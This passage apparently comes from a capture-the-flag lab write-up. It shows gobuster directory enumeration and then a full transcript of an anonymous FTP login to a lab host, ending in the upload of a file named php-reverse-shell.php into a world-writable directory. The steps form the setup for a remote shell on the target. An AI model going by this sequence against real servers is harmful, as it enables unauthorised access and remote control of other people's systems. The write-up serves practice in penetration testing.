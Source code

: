 ```bash
===============================================================
2022/01/07 13:47:52 Starting gobuster
===============================================================
/files (Status: 301)
/server-status (Status: 403)
===============================================================
```

## MAKING FTP CONNECTION AS ANONYMOUS 

```bash
root@ip-10-10-116-6:~# ftp 10.10.157.159
Connected to 10.10.157.159.
220 (vsFTPd 3.0.3)
Name (10.10.157.159:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> cd ftp
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
226 Directory send OK.
ftp> cd ..
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
ftp> cd ftp
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
ftp> put php-reverse-shell.php
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5493 bytes sent in 0.00 secs (141.5820 MB/s)
```
